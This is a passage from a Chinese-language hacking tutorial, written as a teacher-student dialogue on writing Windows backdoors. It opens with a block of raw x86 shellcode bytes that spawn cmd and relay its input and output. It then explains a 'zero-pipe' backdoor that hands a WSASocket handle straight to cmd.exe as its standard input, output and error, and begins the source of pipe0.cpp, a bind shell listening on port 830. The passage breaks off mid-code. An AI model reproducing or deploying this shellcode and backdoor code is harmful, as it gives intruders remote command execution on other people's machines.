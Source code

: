 ```
    "\x00\x00\x00\x8D\x3C\x24\x33\xC0\x68\x80\x00\x00\x00\x59\xF3\xAB"
    "\x8D\x3C\x24\xB8\x01\x01\x00\x00\x89\x47\x2C\x8B\x45\x40\x89\x47"
    "\x38\x8B\x45\x3C\x89\x47\x3C\x8B\x45\x3C\x89\x47\x40\xB8\x63\x6D"
    "\x64\x00\x89\x47\x64\x8D\x44\x24\x44\x50\x57\x51\x51\x51\x41\x51"
    "\x49\x51\x51\x8D\x47\x64\x50\x51\xFF\x55\x08\x81\xEC\x00\x04\x00"
    "\x00\x8B\xF4\x33\xC9\x51\x51\x8D\x7D\x48\x57\xB8\x00\x04\x00\x00"
    "\x50\x56\x8B\x45\x38\x50\xFF\x55\x0C\x8B\x07\x85\xC0\x74\x19\x33"
    "\xC9\x51\x57\xFF\x37\x56\xFF\x75\x38\xFF\x55\x14\x33\xC9\x51\xFF"
    "\x37\x56\x53\xFF\x55\x30\xEB\xC3\x33\xC9\x51\xB8\x00\x04\x00\x00"
    "\x50\x56\x53\xFF\x55\x34\x89\x07\x33\xC9\x51\x57\xFF\x37\x56\xFF"
    "\x75\x44\xFF\x55\x10\xEB\xA4"; 
```

# 3.5 进一步的探讨

## 3.5 进一步的探讨

宇强不服气的说：“写字速度是我的弱项，我们比比其他方面的吧！”

“以后有机会的。现在时间不早了，我们再进行点后门编写更高级的讨论吧！”老师说。

“哦！那好吧！”

# 3.5.1 更简单的办法——零管道后门

### 3.5.1 更简单的办法——零管道后门

“我们讲了双管道后门、单管道后门，其实还可以有不用新建管道的后门——零管道后门！”老师说道。

“啊?不用管道？那进程间怎么通信呢？”

“不是不用管道，”老师纠正道，“而是不用新建管道。”

“哦？”大家疑惑不解。

“其实是这样的，我们用 Socket 句柄直接替代 CMD 进程的输入和输出句柄，就像这样：”

```
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD; 
```

“哦？还可以这样啊！”大家一愣。

“对，这样替换后 CMD 的输入输出就可以直接和远程通信了，省去了进程间传输的所有东西。”

“啊？”

“我们来看看实现，”老师还提醒了一句，“但要注意，要用 WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0) 来建立 Socket 才能像这样替换。因为 WSASocket()创建的 Socket 默认是非重叠套接字，这样才可以直接将 cmd.exe 的 stdin、stdout、stderr 转向到套接字。而 socket()函数创建的 Socket 是重叠套接字，就不能这样。”

“组合起来，得到我们的零管道程序‘pipe0.cpp’，如下：”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
         WSADATA ws;
         SOCKET listenFD;
         int ret;
         //初始化 wsa
         WSAStartup(MAKEWORD(2,2),&ws);
         //注意要用 WSASocket
         listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
         //监听本机 830 端口
```
